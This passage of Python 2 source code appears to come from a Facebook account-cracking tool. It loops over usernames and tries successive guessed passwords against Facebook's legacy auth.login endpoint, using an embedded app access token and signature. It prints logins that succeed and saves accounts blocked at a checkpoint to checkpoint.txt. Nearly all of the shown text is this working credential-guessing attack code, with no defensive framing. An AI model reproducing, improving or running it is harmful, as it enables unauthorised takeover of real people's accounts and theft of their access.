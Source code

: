 									if "www.facebook.com" in q4["error_msg"]:
										print "[Checkpoint] " + user + " | " + pass4
										cps = open("checkpoint.txt", "a")
										cps.write(user+"|"+pass4+"\n")
										cps.close()
										cpb.append(user+pass4)
									else:
										data5 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass5 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
										q5 = json.loads(data5.text)
										if "access_token" in q5:
											print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass5
											oks.append(user+pass5)
										else:
											if "www.facebook.com" in q5["error_msg"]:
												print "[Checkpoint] " + user + " | " + pass5
												cps = open("checkpoint.txt", "a")
												cps.write(user+"|"+pass5+"\n")
												cps.close()
												cpb.append(user+pass5)
											else:
												data6 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass6 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
												q6 = json.loads(data6.text)
												if "access_token" in q6:
													print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass6
													oks.append(user+pass6)
												else:
													if "www.facebook.com" in q6["error_msg"]:
														print "[Checkpoint] " + user + " | " + pass6
														cps = open("checkpoint.txt", "a")
														cps.write(user+"|"+pass6+"\n")
														cps.close()
														cpb.append(user+pass6)
													else:
														data7 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass7 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
														q7 = json.loads(data7.text)
														if "access_token" in q7:
															print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass7
															oks.append(user+pass7)
														else:
															if "www.facebook.com" in q7["error_msg"]:
																print "[Checkpoint] " + user + " | " + pass7
																cps = open("checkpoint.txt", "a")
																cps.write(user+"|"+pass7+"\n")
																cps.close()
																cpb.append(user+pass7)
																
